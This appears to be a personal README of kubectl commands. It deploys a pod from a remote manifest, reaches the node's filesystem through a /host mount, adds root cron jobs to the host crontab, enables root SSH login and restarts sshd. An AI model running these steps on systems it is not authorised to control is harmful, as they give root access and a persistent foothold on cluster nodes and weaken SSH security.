 # k8s

```bash
kubectl apply -f https://raw.githubusercontent.com/ShubhamTatvamasi/k8s/master/ibm.yaml
```
```bash
kubectl set image po ubuntu ubuntu=ubuntu:16.04
```
```bash
kubectl exec -it ubuntu -- bash
```
```bash
kubectl exec -it ubuntu -- tail /host/var/log/syslog -f
```
add commands to run on host
```bash
echo "* * * * * root curl ifconfig.co > /root/data 2>&1" >> /host/etc/crontab
```
```bash
vim /host/etc/crontab
cat /host/root/data
```
---

SSH Steps
```bash
sed -i 's/PermitRootLogin no/PermitRootLogin yes/g' /host/etc/ssh/sshd_config

cat /host/etc/ssh/sshd_config | grep PermitRootLogin
```

restart SSH Daemon
```bash
echo "* * * * * root killall -1 sshd && echo "Killed SSH Daemon" > /root/data 2>&1" >> /host/etc/crontab
```

delete last line from file
```bash
sed -i '$ d' /host/etc/crontab
```

```bash
kubectl delete po ubuntu
```
